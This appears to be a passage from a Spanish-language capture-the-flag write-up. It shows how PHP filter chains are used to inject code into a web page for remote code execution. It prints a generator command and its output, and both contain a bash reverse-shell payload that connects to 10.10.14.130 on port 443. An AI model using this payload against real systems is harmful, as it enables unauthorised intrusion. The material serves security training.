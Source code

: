 
Usaremos las [PHP Filter Chains](https://github.com/synacktiv/php_filter_chain_generator) para generar código PHP que se va a inyectar en la página, para así poder conseguir un RCE.

```sh
❯ python3 php_filter_chain_generator.py --chain "<?php system(bash -c 'bash -i >& /dev/tcp/10.10.14.130/443 0>&1'); ?>"
[+] The following gadget chain will generate the following code : <?php system(bash -c 'bash -i >& /dev/tcp/10.10.14.130/443 0>&1'); ?> (base64 value: PD9waHAgc3lzdGVtKGJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMwLzQ0MyAwPiYxJyk7ID8+)
```